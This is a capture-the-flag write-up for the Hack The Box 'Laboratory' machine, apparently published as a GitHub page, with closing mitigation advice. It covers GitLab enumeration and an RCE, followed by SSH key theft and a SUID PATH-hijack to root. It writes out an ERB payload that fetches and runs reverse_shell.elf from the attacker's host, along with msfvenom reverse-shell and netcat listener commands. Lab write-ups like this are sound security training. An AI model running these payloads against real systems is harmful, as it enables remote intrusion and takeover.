# Laboratory


## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)

- [**Mitigation**](#Mitigation)


## Box

[]()


## Profile

[](https://www.hackthebox.eu/home/users/profile/419539)


## Enumeration

First, i start nmap scanning:

```bash
nmap -sC -sV -oN nmap_res 10.10.10.216
```


###### Active services:

- **SSH**

- **HTTP**
- **HTTPS**





First i try **HTTPS** protocol and i get this:




So, i have to edit my `/etc/hosts` file to add the corresponding **DNS Server names** to the target ip:

`10.10.10.216	laboratory.htb git.laboratory.htb`

Now, i can access to the web page. After a few minutes on the main page, i get nothing so i decide to go in the `git.laboratory.htb`. I try to create an account to access to the git main page. I have to use the domain name of the website for the mail:


I explored the git page and i found a project with the user Dexter:


Here, i think i need to be able to connect to his account to manage the website. So, first, i try to find the deployed git version and i found it in the help page:



Now, i just need to search an exploit which is available on this version. Finally, i found an interesting post which say that we can make a **RCE** with this version of gitlab:




## Exploitation

To use this exploit, i have to get the secret_key_base of the server gitlab and add it to my gitlab-rails config:



I tried this description for the issue: ``

When i moved the issue in my second project, i get the secrets.yml file:



I downloaded it and cat the file to copy the secret_key_base on my own secrets.yml :




I installed gitlab with the correct version and try this steps to trigger a **RCE**.

First, i launched gitlab rails console with the following command: `sudo gitlab-rails console `. 

In the same time, i create a SimpleHTTPServer with python: `python -m SimpleHTTPServer 8888`.

Before writing this commands, i create a file `test`and i edit the `erb` variable with ```erb = ERB.new("<%= `cd /tmp/ &&  wget http://10.10.14.121:8888/test` %>")```

I send this commands to the gitlab console and generated the corresponding cookie. Finally, i send request using curl with the cookie and i received the wget answer:




So, the **RCE** worked, at this point, i tried to get a reverse shell.

I generate an elf file using msfvenom to execute it remotely: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f elf >reverse_shell.elf`

In the same time, i use netcat to listen the specified port: `nc -lvp 4444`

I re-edit the `erb` variable with this command: ```erb = ERB.new("<%=`cd /tmp/ &&  wget http://10.10.14.121:8888/reverse_shell.elf && chmod +x reverse_shell.elf && ./reverse_shell.elf` %>"```

After that, i got the reverse shell: 




## Post-exploitation

### User

I know we are in the gitlab server which handles the website. I also know the username name of the user we got in the gitlab website: Dexter.

So, after a few research, i learned that i can easily edit the user password using `gitlab-rails console`:




I tried to connect to Dexter account with the password i edited and it worked. In his account, i retrieve the private key for the ssh connection:




I dowloaded this file and used it for the ssh connection, and it worked again:




### Root

First, i launched a linPEAS to enumerate possible privesc. After a few looks, i found an unusual **SUID** binary file:



I tried to read readable ASCII character using `strings` command in my kali and found interesting lines, especially, the lines with chmod:




So, here we can conclude that chmod command is launched without the absolute path from the `docker-security` script with the root privilege because of the **SUID** permission.

I decided to create a custom script named `chmod` and add the temporarily directory to the `PATH` to execute my script instead of `/bin/chmod`. I just used `/bin/bash -i` to launch an interactive bash shell:




Finally, i make my file executable, execute `docker-security` and i got bash with root privilege:




## Mitigation

To avoid vulnerabilities in this box, it is recommended to:

- Upgrade gitlab to the last version
- Do not be tempted to roll your own **SUID** utilities unless you really have to
- Use absolute path of command used in script
- Use `getconf PATH` in the start of the script to avoid unknown script execution 
